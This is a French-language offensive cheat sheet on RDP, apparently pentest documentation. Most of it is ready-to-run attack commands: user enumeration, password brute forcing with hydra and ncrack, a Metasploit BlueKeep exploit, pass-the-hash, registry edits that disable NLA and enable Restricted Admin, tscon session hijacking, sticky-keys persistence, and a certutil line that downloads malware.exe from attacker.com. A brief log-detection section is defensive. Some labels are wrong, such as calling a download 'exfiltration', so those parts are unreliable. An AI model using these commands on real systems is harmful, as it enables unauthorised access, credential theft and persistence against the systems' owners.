

Cette documentation détaille les techniques d'énumération, d'exploitation et de post-exploitation liées au protocole RDP.



## Ports RDP

- **3389/TCP** : Port standard du service RDP.
- **3389/UDP** : Utilisé pour l'optimisation des performances si activé.

## Détection et Analyse

### Scanner RDP avec Nmap

```bash
nmap -p 3389 --script=rdp-enum-encryption,rdp-ntlm-info target.com
```

Sortie indicative :
```text
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Identifier la version et les vulnérabilités

```bash
nmap -p 3389 --script=rdp-vuln-ms12-020 target.com
```

> [!danger] BlueKeep (CVE-2019-0708)
> L'exploitation de **BlueKeep** est instable et peut causer un **BSOD** sur la cible.

## Énumération des utilisateurs

### Énumération via Active Directory

```bash
kerbrute userenum -d target.com --dc target.com users.txt
```

### Énumération avec crowbar

```bash
crowbar -b rdp -u users.txt -n -s target.com
```

## Bruteforce

> [!warning] Bruit réseau
> Attention au volume de logs générés par le bruteforce, visibles dans les journaux de sécurité Windows.

### Bruteforce avec Hydra

```bash
hydra -L users.txt -P passwords.txt rdp://target.com
```

### Bruteforce avec Ncrack

```bash
ncrack -p 3389 -U users.txt -P passwords.txt target.com
```

## Analyse des logs (Event IDs 4624, 4625)

L'analyse des journaux d'événements permet de détecter les tentatives d'accès et les connexions réussies.

- **Event ID 4624** : Connexion réussie. Rechercher le **Logon Type 10** (RDP).
- **Event ID 4625** : Échec de connexion. Un volume élevé indique une tentative de bruteforce.

```powershell
# Rechercher les échecs de connexion RDP
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4625} | Where-Object {$_.Properties[8].Value -eq 10}
```

## Attaques spécifiques

### Configuration NLA (Network Level Authentication)

Vérification de la configuration NLA :
```bash
nmap -p 3389 --script=rdp-enum-encryption target.com
```

### Désactivation du NLA via registre

Si un accès administrateur est obtenu, désactiver le NLA permet de faciliter certaines attaques de type Man-in-the-Middle ou d'utiliser des outils d'exploitation plus anciens.

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

### Exploitation BlueKeep (CVE-2019-0708)

```bash
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target.com
set LHOST your_ip
set LPORT 4444
exploit
```

### Pass-the-Hash (PtH) sur RDP

> [!warning] Mode Restricted Admin
> Le mode **Restricted Admin** est requis pour le **Pass-the-Hash** RDP.

```bash
xfreerdp /v:target.com /u:admin /pth:<HASH_NTLM>
```

Activation du mode sur la cible (nécessite des privilèges élevés) :
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

## Détournement de session

> [!danger] Privilèges requis
> Le détournement de session via **tscon** nécessite des privilèges **SYSTEM**.

### Lister les sessions actives

```cmd
query user
```

### Détournement avec tscon

```cmd
tscon 2 /dest:rdp-tcp#3
```

### Création d'un service pour exécution SYSTEM

```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#3"
net start sessionhijack
```

### Shadowing de session RDP

Le shadowing permet de visualiser ou de prendre le contrôle d'une session utilisateur active sans déconnexion forcée.

```cmd
# Lister les sessions
qwinsta
# Shadowing de la session 2
mstsc /shadow:2 /v:target.com
```

## Persistance via RDP (Sticky Keys, Utilman)

Le remplacement des binaires d'accessibilité permet d'obtenir un shell SYSTEM sur l'écran de connexion.

```cmd
# Remplacer Sethc.exe par cmd.exe
copy c:\windows\system32\sethc.exe c:\
copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```
*Une fois appliqué, appuyer 5 fois sur SHIFT sur l'écran de verrouillage déclenche un shell.*

## Tunneling RDP via SSH/Proxy

En cas de filtrage réseau, le RDP peut être encapsulé dans un tunnel SSH.

```bash
# Tunneling local
ssh -L 33389:target_ip:3389 user@pivot_host
# Connexion via le tunnel
xfreerdp /v:127.0.0.1:33389 /u:user /p:password
```

## Exfiltration de données

### Copie de fichiers avec smbclient

```bash
smbclient -U user //target.com/c$ -c "get C:\sensitive.docx"
```

### Exfiltration via certutil

```cmd
certutil.exe -urlcache -split -f http://attacker.com/malware.exe C:\temp\malware.exe
```

## Contournement des restrictions

### Bypass des restrictions de copier-coller

```cmd
cmdkey /add:target.com /user:admin /pass:password
mstsc /v:target.com /admin
```

## Synthèse des commandes

| Action | Commande |
| :--- | :--- |
| Scanner RDP | `nmap -p 3389 --script=rdp-enum-encryption target.com` |
| Identifier version | `nmap -p 3389 --script=rdp-vuln-ms12-020 target.com` |
| Énumérer utilisateurs | `kerbrute userenum -d target.com --dc target.com users.txt` |
| Bruteforce identifiants | `hydra -L users.txt -P passwords.txt rdp://target.com` |
| Connexion RDP | `xfreerdp /u:user /p:password /v:target.com` |
| Exploiter BlueKeep | `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce` |
| Pass-the-Hash RDP | `xfreerdp /v:target.com /u:admin /pth:<HASH_NTLM>` |
| Détourner session | `tscon <SESSION_ID> /dest:<SESSION_NAME>` |
| Bypass copier-coller | `cmdkey /add:target.com /user:admin /pass:password` |

Ces techniques s'inscrivent dans une méthodologie globale incluant l'**Active Directory Enumeration**, la **Windows Privilege Escalation**, les **Credential Attacks** et le **Network Pivoting**.